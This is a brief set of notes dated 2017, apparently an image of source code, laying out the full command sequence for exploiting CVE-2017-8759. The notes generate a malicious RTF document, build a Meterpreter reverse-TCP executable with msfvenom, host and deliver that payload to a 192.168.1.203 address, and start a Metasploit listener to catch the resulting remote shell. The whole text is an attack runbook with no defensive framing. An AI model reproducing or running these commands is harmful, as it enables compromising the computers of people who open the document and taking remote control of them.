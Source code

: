 # Notes: Jeffrey Li 9/22/2017

#generate the malcious RTF file
python cve-2017-8759_toolkit.py -M gen -w Gotcha.rtf -u http://192.168.1.203/gotcha.txt

#generate the payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.203 LPORT=6996 -f exe > /tmp/gotcha.exe

#start the toolkit in exploit mode to host and deliver the payload
python cve-2017-8759_toolkit.py -M exp -e http://192.168.1.203/gotcha.exe -l /tmp/gotcha.exe

# msfonsole command (RC script)
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.203
set lport 6996
exploit

